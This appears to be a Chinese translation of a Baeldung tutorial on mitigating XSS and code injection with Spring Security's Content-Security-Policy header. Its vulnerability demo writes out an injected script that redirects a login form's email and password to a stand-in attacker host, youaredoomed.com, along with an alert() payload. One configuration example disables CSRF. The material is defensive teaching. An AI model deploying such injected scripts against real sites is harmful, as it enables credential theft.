




# Spring Security 的内容安全策略

> 原文：<https://web.archive.org/web/20220930061024/https://www.baeldung.com/spring-security-csp>

## 1.概观

跨站点脚本攻击或 XSS 攻击一直位列最普遍的十大网络攻击之一。当 web 服务器处理用户的恶意输入，而不对其进行验证或编码，并将其呈现在页面上时，就会发生 [XSS 攻击](/web/20220630142013/https://www.baeldung.com/spring-prevent-xss)。像 XSS 攻击一样，代码注入和点击劫持通过窃取用户数据并冒充它们来破坏 web 应用程序。

在本教程中，让我们学习如何使用`Content-Security-Policy`头文件减轻基于 Spring 安全的 web 应用程序中的代码注入风险。

## 2.内容安全政策

**内容安全策略(CSP)是一个 HTTP 响应头，可以显著减少代码注入攻击，如 [XSS](/web/20220630142013/https://www.baeldung.com/spring-prevent-xss) 、[点击劫持](https://web.archive.org/web/20220630142013/https://owasp.org/www-community/attacks/Clickjacking)等。，在[现代浏览器](https://web.archive.org/web/20220630142013/https://caniuse.com/?search=Content-Security-Policy)。**

web 服务器指定了浏览器可以使用`Content-Security-Policy` 头呈现的资源的允许列表。这些资源可以是浏览器呈现的任何东西，例如 CSS、Javascript、图像等。

该标题的语法是:

```java
Content-Security-Policy: <directive>; <directive>; <directive> ; ...
```

此外，我们可以将这个策略设置为 HTML 页面的`<meta>`标签的一部分:

```java
<meta http-equiv="Content-Security-Policy" content="<directive>;<directive>;<directive>; ...">
```

**此外，这些[指令](https://web.archive.org/web/20220630142013/https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy#directives)中的每一个都包含一个具有多个值的键。可以有多个指令，每个指令之间用分号`(;)` :** 隔开

```java
Content-Security-Policy: script-src 'self' https://baeldung.com; style-src 'self'; 
```

在这种情况下，我们有两个指令(`script-src`和`style-src`)，指令`script-src`有两个值(`‘self'`和`https://baeldung.com`)。

## 3.漏洞演示

现在，让我们看一个 XSS 和代码注入漏洞有多严重的例子。

### 3.1.登录表单

通常，在 web 应用程序中，我们会在会话超时时将用户重定向到登录页面。此外，标准登录表单有用户名/密码字段和提交按钮:

```java
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button>
</form>
```

### 3.2.代码注入

用户可以在提供用户输入的同时通过表单字段注入可疑代码。例如，假设一个文本框接受注册表单中的用户名。

代替用户名，用户可以输入`<script>alert(“this is not expected”)</script>`并提交表单。随后，当表单显示用户名时，它会执行脚本(在这种情况下会显示一条消息)。该脚本甚至可以加载可能造成更严重危害的外部脚本。

类似地，让我们假设表单域没有足够的验证。用户再次利用这一点，将恶意的 Javascript 代码注入到 [DOM(文档对象模型)](https://web.archive.org/web/20220630142013/https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction):

```java
<span> Session time out. Please login.</span>
<form id="login" action="/login">
    <input type="email" class="form-control" id="email">
    <input type="password" class="form-control" id="password">
    <button type="submit">Login</button> 
</form>
<script>
    let form= document.forms.login;
    form.action="https://youaredoomed.com:9090/collect?u="+document.getElementById('email').value
      +"&p;="+document.getElementById('password').value;
</script>
```

当用户点击 `Login`按钮时，注入的 Javascript 代码会将用户重定向到一个恶意网站。

当一个不知情的用户提交表单时，他会被重定向到`https://youaredoomed.com` ,并暴露他的凭证。

### 3.3.演示

让我们来看看这个漏洞的作用。

通常，会话超时后，服务器会将用户重定向到登录页面以输入其凭据。但是，注入的恶意代码会将用户和用户的凭据重定向到非预期的站点:

<https://web.archive.org/web/20220630142013im_/https://www.baeldung.com/wp-content/uploads/2021/12/csp.mp4?_=1>

## 4.春天安全

在本节中，让我们讨论减轻这些代码注入漏洞的方法。

### 4.1.HTML `meta`标签

在前面的例子中添加一个`Content-Security-Policy` 头会阻止表单提交给恶意服务器。所以，让我们使用`<meta` >标签添加这个头，并检查其行为:

```java
<meta http-equiv="Content-Security-Policy" content="form-action 'self';">
```

添加上面的`meta` 标签可以防止浏览器将表单提交给其他来源:

[](/web/20220630142013/https://www.baeldung.com/wp-content/uploads/2021/12/csp-1-2-1024x491-1.png)

**尽管`meta` 标签可以减轻 XSS 和代码注入攻击，但它们的功能有限。例如，我们不能使用`meta`标签来报告违反内容安全策略的情况。** 

从今以后，让我们使用 [Spring Security](/web/20220630142013/https://www.baeldung.com/security-spring) 的力量，通过设置`Content-Security-Policy` 头来减轻这些风险。

### 4.2.Maven 依赖性

首先，让我们将 [Spring Security](https://web.archive.org/web/20220630142013/https://search.maven.org/search?q=g:org.springframework.boot%20a:spring-boot-starter-security) 和 [Spring Web](https://web.archive.org/web/20220630142013/https://search.maven.org/search?q=g:org.springframework.boot%20a:spring-boot-starter-web) 依赖项添加到我们的`pom.xml`:

```java
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
    <version>2.6.1</version>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <version>2.6.1</version>
</dependency>
```

### 4.3.配置

接下来，让我们通过扩展`WebSecurityConfigurerAdapter`来定义 Spring 安全配置:

```java
@Configuration
public class SecurityConfiguration extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http
          .headers()
          .xssProtection()
          .and()
          .contentSecurityPolicy("form-action 'self'");
    }
}
```

这里，我们声明了`contentSecurityPolicy` 来限制表单动作的来源。

### 4.4.内容安全策略响应标头

必要的配置就绪后，让我们来验证 Spring Security 提供的安全性。为此，让我们打开浏览器的开发工具(通过按 F12 或类似的键)，点击 `Network`选项卡，让我们打开 URL `http://localhost:8080`:

[](/web/20220630142013/https://www.baeldung.com/wp-content/uploads/2021/12/csp-2-1-1024x494-1.png)

现在，我们将填写并提交表单:

[](/web/20220630142013/https://www.baeldung.com/wp-content/uploads/2021/12/csp-3-1-1024x436-1.png)

有了 Content-Security-Policy 标头，浏览器会阻止提交请求，并降低泄露凭据的风险。

同样，我们可以配置 Spring Security 来支持[不同的指令](https://web.archive.org/web/20220630142013/https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)。例如，这段代码指定浏览器只从相同的来源加载脚本:

```java
.contentSecurityPolicy("script-src 'self'");
```

类似地，我们可以指示浏览器只从相同的源和`somecdn.css.com`下载 CSS:

```java
.contentSecurityPolicy("style-src 'self' somecdn.css.com");
```

此外，我们可以在 Content-Security-Policy 头中组合任意数量的指令。例如，为了限制 CSS、JS 和 form 动作，我们可以指定:

```java
.contentSecurityPolicy("style-src 'self' somecdn.css.com; script-src 'self'; form-action 'self'")
```

### 4.5.报告

除了命令浏览器阻止恶意内容，服务器还可以要求浏览器发送被阻止内容的报告。因此，让我们将`report-uri` 指令与其他指令结合起来，让浏览器在内容被阻止时发送帖子。

浏览器将以下内容发布到`report-uri`中定义的 URL:

```java
{
    "csp-report": {
        "blocked-uri": "",
        "document-uri": "",
        "original-policy": "",
        "referrer": "",
        "violated-directive": ""
    }
}
```

因此，我们需要定义一个 API 来接收浏览器发送的违规报告，并记录请求，以便于说明和澄清。

**我们应该注意到，尽管指令`report-uri` 被弃用，取而代之的是 [`report-to`](https://web.archive.org/web/20220630142013/https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to) ，但大多数浏览器都不支持[作为日期`report-to`](https://web.archive.org/web/20220630142013/https://caniuse.com/?search=report-to) 。**因此，我们将使用`report-uri`和`report-to`指令进行报告。

首先，让我们更新我们的 Spring 安全配置:

```java
String REPORT_TO = "{\"group\":\"csp-violation-report\",\"max_age\":2592000,\"endpoints\":[{\"url\":\"https://localhost:8080/report\"}]}";
http
  .csrf().disable()
  .authorizeRequests()
  .antMatchers("/**").permitAll().and()
  .headers().addHeaderWriter(new StaticHeadersWriter("Report-To", REPORT_TO))
  .xssProtection()
  .and()
  .contentSecurityPolicy("form-action 'self'; report-uri /report; report-to csp-violation-report");
```

我们首先用`csp-violation-report` 定义了一个`report-to` 组，并关联了一个端点。接下来，作为`.contentSecurityPolicy,` 的一部分，我们使用这个组名作为`report-to`指令的值。

现在，当我们在浏览器中打开页面时，我们会看到:

[](/web/20220630142013/https://www.baeldung.com/wp-content/uploads/2021/12/csp-4-1024x512-1.png)

接下来，让我们填写表格并点击 `Login` 按钮。不出所料，浏览器会阻止请求并发送报告。在服务器控制台上，我们有一个类似于以下内容的日志:

```java
Report: {"csp-report":{"blocked-uri":"https://youaredoomed.com:9090/[[email protected]](/web/20220630142013/https://www.baeldung.com/cdn-cgi/l/email-protection)&p;=password","document-uri":"https://localhost:8080/","original-policy":"form-action 'self'; report-uri https://localhost:8080/report","referrer":"","violated-directive":"form-action"}}
```

以下是格式化 JSON 后的相同报告:

```java
{
    "csp-report": {
        "blocked-uri": "https://youaredoomed.com:9090/[[email protected]](/web/20220630142013/https://www.baeldung.com/cdn-cgi/l/email-protection)&p;=password",
	"document-uri": "https://localhost:8080/",
	"original-policy": "form-action 'self'; report-uri https://localhost:8080/report",
	"referrer": "",
	"violated-directive": "form-action"
    }
}
```

## 5.结论

在本文中，我们看到了如何保护我们的 web 应用程序免受点击劫持、代码注入和 XSS 攻击。

虽然没有针对这些攻击的完全保护措施，但`Content-Security-Policy`报头有助于缓解大多数攻击。值得注意的是，到目前为止，大多数现代浏览器都不完全支持这个标题。因此，用可靠的安全原则和标准设计和构建应用程序是至关重要的。

和往常一样，完整的源代码可以在 GitHub 上找到[。](https://web.archive.org/web/20220630142013/https://github.com/eugenp/tutorials/tree/master/spring-security-modules/spring-security-web-boot-3)